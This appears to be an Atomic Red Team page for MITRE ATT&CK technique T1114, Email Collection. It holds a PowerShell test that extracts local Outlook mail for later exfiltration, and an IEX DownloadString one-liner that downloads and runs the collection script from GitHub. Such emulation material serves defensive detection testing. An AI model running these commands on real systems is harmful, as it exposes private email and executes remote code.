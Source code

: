 # T1114 - Email Collection
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1114)
<blockquote>Adversaries may target user email to collect sensitive information from a target.

Files containing email data can be acquired from a user's system, such as Outlook storage or cache files .pst and .ost.

Adversaries may leverage a user's credentials and interact directly with the Exchange server to acquire information from within a network.

Some adversaries may acquire user credentials and access externally facing webmail applications, such as Outlook Web Access.</blockquote>

## Atomic Tests

- [Atomic Test #1 - T1114 Email Collection with PowerShell](#atomic-test-1---t1114-email-collection-with-powershell)


<br/>

## Atomic Test #1 - T1114 Email Collection with PowerShell
Search through local Outlook installation, extract mail, compress the contents, and saves everything to a directory for later exfiltration.

**Supported Platforms:** Windows


#### Run it with `command_prompt`! ```
Display email contents in the terminal
  PS C:\> .\Get-Inbox.ps1

Write emails out to a CSV
  PS C:\> .\Get-Inbox.ps1 -file "mail.csv"

Download and Execute
  "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1114/Get-Inbox.ps1')"
```



<br/>
